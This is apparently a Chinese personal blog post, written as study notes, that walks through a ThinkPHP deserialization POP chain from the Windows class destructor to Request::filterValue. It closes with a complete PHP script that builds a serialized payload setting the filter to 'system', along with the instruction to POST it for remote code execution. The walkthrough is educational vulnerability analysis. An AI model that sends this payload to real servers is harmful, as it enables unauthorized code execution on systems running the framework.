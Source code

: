 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Thinkphp反序列化利用链深入分析 # 标题 
subtitle:   一些新的思路与手段 #副标题
date:       2019-12-15              # 时间
author:     LessterWong             # 作者
header-img: img/post-bg-2016.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - PHP
    - Web
    - Security
---
```


###前言
>好像稍微拖得有点久了QwQ

第二篇笔记，加油加油！

这次更新时间间隔稍微有点长，表示歉意~目前的学习过程中暴露出很多的问题，如docker工具使用不熟练、问题切入点不好寻找等，php的学习也遇到了瓶颈，慢慢加油吧~没有上过网络礼包的我也要加快网络方面知识的学习了。

这次的工作，是是跟随[https://paper.seebug.org/1040/](https://paper.seebug.org/1040/) 中的内容复现出该漏洞并进行一些探讨和分析。

###Thinkphp 反序列化利用链深入分析
>思路非常的有趣

####总体思路
这次我们所面对的同样是一个反序列化的漏洞，由于漏洞触发的代码不在魔术方法中，我们需要和上篇博客中进行一样的操作：构造pop链来将类属性与敏感函数的属性联系起来。在整个过程中，都是以寻找对应的魔术方法作为突破口，不过这次的pop链构造过程略微有些复杂，触发漏洞的过程也有一定的操作难度。

####利用链的构建
这个漏洞起始于某个类的__destruct()方法：

```
public function __destruct()
{
    $this->close();
    $this->removeFiles();
}
```

我们追踪到removeFiles函数中，发现内容如下：
```
class Windows extends Pipes
{
    private $files = [];
    ....
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
    ....
}
```

使用了`$this->files`，且`$files`是可控的。作为一个小白，还是不太能够直观的分辨出某一个变量是否是“可控”的，初步理解为这个变量只需要构建特殊的输入就可以拥有我们所希望其拥有的值。初步认为所有具有“$this->”格式的变量都是“可控”的，因为可以直接通过`__construct()`来给该变量赋值。于是我们找到了第一个需要控制的变量`$files`与它的位置 Windows。

而在`removeFiles()`函数中，`file_exist()`函数会将`$filename`当作字符串来处理，因此在这里我们需要寻找一个__toString方法的漏洞来在处理过程中触发。于是我们全局搜索后找到`\thinkphp\library\think\model\concern\Conversion.php`中的`__toString()`函数，沿着里面调用的函数`toJson()`一步一步向下查找，并在Attribute类中找到了`getRelation()`方法，再往下逐层寻找，最终在`getData`函数中找到了利用终点`$this->data[$name]`。data就是我们需要控制的变量之一了。

现在来总结一下：我们需要控制三个变量：类Windows中的`$files`（需要删除的文件路径），类Conversation中的`$append`（一个判断的条件，满足该条件才能进行进一步的函数调用），类Attribute中的`$data`（利用链的终点）。现在所缺的就是通过use关键字来集成类Conversation和类Attribute的一个类(这样就可以在一个类中构造我们的payload)。

通过搜索我们发现了符合条件的类，位于`\thinkphp\library\think\Model.php`：

```
abstract class Model implements \JsonSerializable, \ArrayAccess
{
    use model\concern\Attribute;
    use model\concern\RelationShip;
    use model\concern\ModelEvent;
    use model\concern\TimeStamp;
    use model\concern\Conversion;
    .......
```

####代码执行点的分析

通常的思路是再去找一个反序列化的漏洞，而这篇文章中采用了另外的一个方法：尝试覆盖某个功能。当系统尝试去调用这个功能时，会直接跳我们设计的假功能。这里选择了尝试覆盖Request类中的`filter`功能。

在这里找到的首先是`filterValue`函数：

```
  ....
  private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            }
            .....
```

这里依然是一层一层找漏洞的，但和上面沿着可控的链一直往下找有所区别，这里的思路是一直找直至找到`$value`可控的位置。我们发现了`input`函数中存在`$this->filterValue($data, $name, $filter);`的内容，可以控制`value`的值，而`input`函数的参数本身又是不可控的。于是我们再去寻找可以控制`input`函数参数的函数（好像有点绕）。于是我们用这个思路一路找到了`param`函数、`isAjax`函数。`isAjax`明显是可控的，于是倒推回去是可以控制`input`中的`$name`。这就离控制`filterValue`中的`$value`又近了一步。确实相当的精妙。于是下一个任务就是回到`input`函数中，补上剩下的拼图。

发现`input`函数中：`$data = $this->getData($data, $name);` 我们得到`$value`需要控制`$data`，现在就要控制`$name`。于是再一次进行跟进工作，最后就可以构造出来payload啦。

```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["calc.exe","calc"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

把payload通过POST传过去，就可以利用漏洞了。

###总结
这一次的反序列化过程中，用了两个不太思路完全不同的跟进方法，从两个不同的方向相互靠拢并最终完成了漏洞的利用工作，确实非常的精妙，给我提供了很多新的思路。
